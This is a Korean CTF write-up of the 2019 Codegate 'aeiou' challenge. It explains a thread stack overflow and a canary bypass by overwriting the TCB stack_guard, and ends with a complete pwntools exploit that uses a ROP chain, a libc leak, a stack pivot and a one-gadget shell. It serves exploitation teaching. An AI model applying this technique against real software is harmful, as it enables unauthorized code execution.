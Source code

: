 ```yaml
---
title: "2019 Codegate aeiou"
date: 2020-1-9
tags: [Codegate]
categories: [Codegate]
---
```


64bit 바이너리가 주어진다.

```
aeiou: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=1c2c4b1f2f26f776c18181389463bc18024091b4, stripped
```

보호기법은 Full RELRO, Canary, NX가 걸려있다.

```
[*] '/vagrant/ctfs/aeiou'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`pthread_create` 함수로 스레드 생성해서 `start_routine` 함수를 실행해주는 부분이다.

```c
int sub_401507()
{
  int result; // eax
  pthread_t newthread; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  pthread_create(&newthread, 0LL, start_routine, 0LL);
  result = pthread_join(newthread, 0LL);
  if ( result )
  {
    puts("oooooh :(");
    result = 1;
  }
  return result;
}
```

pthread_create Code : [Link](https://code.woboq.org/userspace/glibc/nptl/pthread_create.c.html)

pthread_create Description : [Link](https://www.joinc.co.kr/w/man/3/pthread_create)

`sub_400FF5` 함수를 보면 입력한 수를 atoi로 정수로 변환해서 v2에 저장한다. v2 버퍼 크기는 0x1000인데 0x1000이상을 입력할 수 있다. 또 그 크기만큼 `sub_401170` 함수에서 입력을 받는다. 근데 문제는 카나리가 걸려있다는 점이다. 

```c
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s; // [rsp+10h] [rbp-1010h]
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(&s, 0, 0x1000uLL);
  puts("Hello!");
  puts("Let me know the number!");
  v2 = sub_400FF5();
  if ( v2 <= 65536 )
  {
    sub_401170(0, &s, v2);
    puts("Thank You :)");
  }
  else
  {
    puts("Too much :(");
  }
  return 0LL;
}
```

`pthread_create` 함수에 쓰레드가 생성되면 이 쓰레드가 사용할 스택을 만들어주는데 이 쓰레드의 스택에 `stack_guard` 가 존재한다. 

```c
typedef struct
{
void *tcb; /* Pointer to the TCB. Not necessary the
thread descriptor used by libpthread. */
dtv_t *dtv;
void *self; /* Pointer to the thread descriptor. */
int multiple_threads;
uintptr_t sysinfo;
uintptr_t stack_guard;
uintptr_t pointer_guard;
} tcbhead_t;
```

TCB 구조체를 보면 `stack_guard` 영역은 `fs:0x28` Canary 영역의 값이다. `stack_guard` 와 Canary랑 비교하는데 Canary를 A로 쭉 덮고 stack_guard도 A로 쭉 덮으면 SSP를 우회할 수 있다.

TCB Overwrite : [Link](https://bases-hacking.org/tcb-overwrite.html)

익스는 간단하다. Canary를 A로 쭉 덮어주고 gadget들 이용해서 libc구해준다. stack pivoting으로 oneshot 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./aeiou')
p = process('./aeiou')
libc = e.libc
prdi = 0x00000000004026f3 # pop rdi ; ret
prsi_r15 = 0x00000000004026f1 # pop rsi ; pop r15 ; ret
prbp = 0x0000000000400c70 # pop rbp ; ret
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
s = lambda x : p.send(x)
bss = 0x00000000006040CA
leave_ret = 0x0000000000400d70 # leave ; ret

payload = 'A'*0x1008
payload += 'AAAAAAAA' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['system']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x2000,'A') # Canary dup

'''
payload = 'A'*0x1008
payload += 'realsung' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x17e8,'A')
payload += 'realsung' # Canary
'''

sla('>>','3')
sl(str(len(payload)))
s(payload)

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - libc.symbols['system']
log.info('libc_base : ' + hex(libc_base))

sl(p64(libc_base + 0x4526a))

p.interactive()
```

